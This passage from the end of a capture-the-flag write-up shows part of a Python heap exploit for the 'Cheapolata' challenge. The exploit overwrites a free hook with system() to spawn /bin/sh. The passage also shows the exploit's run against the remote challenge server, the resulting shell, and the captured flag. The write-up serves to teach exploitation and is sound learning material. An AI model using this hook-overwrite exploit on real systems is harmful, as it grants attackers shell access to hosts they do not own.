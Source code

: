 ```py
    print("libc: %#018x" % libc.address)

    alloc(8, p64(exe.sym["old_free_hook"])) # overwrite old_free_hook with system()
    alloc(8, b"")
    alloc(8, p64(libc.sym["system"]))
    alloc(0x28, b"/bin/sh\0")
    free() # call system("/bin/sh")

    io.interactive()
    input("end")
    exit()

launch()
exploit()
```

It doesn't need bruteforce anymore and it works remotely !!
```sh
$ python exploit.py

[...]

[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2106: Done
libc: 0x00006ee979764000
[*] Switching to interactive mode
>>> ===== Cheapolata =====
 1. malloc
 2. free
 3. exit
>>> Size: Content: ===== Cheapolata =====
 1. malloc
 2. free
 3. exit
>>> $ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag.txt
FCSC{d0c6b5b751e3bf4b6588fd7261a6ca0bd0a2fd694b25bc1492d2a67b6a38cec8}
```

---
# Conclusion
Thanks for reading this writeup, this is my first one and I hope you liked it.
This challenge taught me a valuable lesson, huge thanks to the author for this challenge.